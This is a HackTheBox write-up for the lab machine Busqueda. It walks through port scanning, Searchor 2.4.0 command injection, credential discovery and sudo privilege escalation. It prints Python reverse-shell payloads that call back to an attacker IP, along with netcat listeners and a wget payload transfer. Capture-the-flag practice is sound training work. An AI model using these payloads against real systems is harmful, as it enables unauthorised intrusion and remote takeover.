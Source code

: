 ## Busqueda Writeup -- HackTheBox ##
  
** This is a walkthrough to get root access on a Linux machine called Busqueda from Hack The Box **

• Add the IP address of the machine from Hack the Box website to your hosts file 

**sudo gedit /etc/hosts**

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/dee050f3-0dc5-41de-8e11-6f334472570f)


• Next step is to doing scanning for open ports and for service version using nmap and the command: **nmap -sV -A -T4 10.10.11.208**


![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/ee5d7dd3-5546-4e8e-ad6d-37ca2851bc2a)

• as we noticed that two  ports (80, 22) are open, let's try to open the IP on the browser

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/5bea92a6-0c2c-41e4-99cb-57ffc6bf5013)

• it is noticed at the bottom of the web page a version Searchor 2.4.0, let's try to find the exploit for it 

after searching on Google, it is found that the URL: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit- have the exploit code to receive an initial shell 

• put the exploit on the filed   
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.144',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/c6a5eca0-9522-4ef1-a94b-590f602d7429)


• on the same time open a listener using netcat with the command  nc -nlvp 1234,  press the search button and the initial shell will be as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/4fd8f83d-e17d-4a62-aff6-aae9fc2d76a5)

• to obtain the first flag, go to home directory and display the content of the user.txt and you will get the first flag as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/52e3fe7b-48be-4a72-9a08-ebf414e7b0c0)

• after enumeration, go through the folder  **cd /var/www/app**, display the content of the file config  **cat config** and the password for accessing  the server with SSH is showing 
 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/3b23308f-bc77-49b6-950c-17d4573e391c)

• connect to the web server with SSH to get an interactive and stable shell 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/07ace5e3-0083-427b-8172-68e678f3733a)

• enumeration to get a root shell, you will find docker-inspect, and try to get a code from Google to get the high privilege, with the help of this 
URL:  https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/   
with the code: import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
after putting the code in a Python file with the name **full-checkup.sh** and opening a Python server to send the file from my local machine to the web server with the command 
└─$ **python -m http.server 80**, and on our shell use the command **wget://10.10.14.144:80/full-checkup.sh** to receive the file 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/69027e08-1198-4a29-b358-4fc605b0eb21)

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/90860dd7-6e1c-4fe7-af41-37f64533edbc)

• after receiving the file change the mod by command **chmod +x full-checkup.sh** 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/a9bf3e06-475a-4c16-98a4-a6be25f2e09d)

• open a listener to listen on port 4444 with netcat  nc -nlvp 4444 

• run the following command to receive the root shell 

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/f218f1be-171d-4b0f-aa55-a5ca58307e2f)

• we get the root flag and root access on the machine 










